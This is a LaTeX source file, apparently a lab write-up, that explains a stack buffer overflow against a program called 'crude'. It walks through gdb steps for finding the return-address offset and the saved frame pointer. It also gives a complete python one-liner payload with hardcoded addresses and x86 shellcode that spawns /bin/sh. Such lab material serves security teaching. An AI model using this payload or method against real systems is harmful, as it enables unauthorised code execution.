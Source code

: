 \documentclass[]{article}
\begin{document}
\subsubsection*{Payload in input string}
This exploit is fairly straight forward. It is similar to the heap based exploit in that we overwrite a jump address with the address of shellcode, appended to the input string. The following steps were taken to gain code execution. 
\begin{enumerate}
	\item Run crude through gdb, with a break at \texttt{authenticate\_user}. Step through until we get to the vulnerable scanf statement.
	\item Print the return address of the current stack frame using the \texttt{info frame} command.
	\item Next we need to figure out how much data to write to the buffer in order to align with the return address. This was done by trial and error, writing a's to the string and printing the stack frame. It turns out we needed 17 bytes to reach the return address.
	\item Next we need to know the address to jump to. This can easily be supplied by gdb. We simply print the stack like so: \texttt{x/32x \$esp}. We can then look for the return address, and take note of the address which it is stored at.
	\item The last preparation we need to make is to record the address located at the word before the return address. This is the previous stack frame pointer (PSFP). If this address becomes corrupt, the program will crash before execution reaches the return address.
	\item Now that we know the address to jump to, where to write it and the PSFP, we can build our input string as follows: Program interaction input, \textcolor{blue}{buffer overflow}, \textcolor{red}{PSFP}, \textcolor{orange}{new return address}, \textcolor{green}{shellcode}.\\
	\\
	\texttt{python -c "print '1{\textbackslash}ntest.csv{\textbackslash}n5{\textbackslash}n1{\textbackslash}n' + \textcolor{blue}{17 * 'a'} + \textcolor{red}{'{\textbackslash}xf4{\textbackslash}xf6{\textbackslash}xff{\textbackslash}xbf'} + \textcolor{orange}{'{\textbackslash}x17{\textbackslash}xa0{\textbackslash}x04{\textbackslash}x08'} + \textcolor{green}{'{\textbackslash}x31{\textbackslash}xc0{\textbackslash}x50{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x2f{\textbackslash}x73{\textbackslash}x68{\textbackslash}x68{\textbackslash}x2f{\textbackslash}x62{\textbackslash}x69\\{\textbackslash}x6e{\textbackslash}x89{\textbackslash}xe3{\textbackslash}x50{\textbackslash}x53{\textbackslash}x89{\textbackslash}xe1{\textbackslash}x31{\textbackslash}xd2{\textbackslash}x83{\textbackslash}xc0{\textbackslash}x5b{\textbackslash}x83{\textbackslash}xe8{\textbackslash}x50{\textbackslash}xcd{\textbackslash}x80{\textbackslash}x0a'"} $>$ stack1.txt}

\end{enumerate}
\end{document}
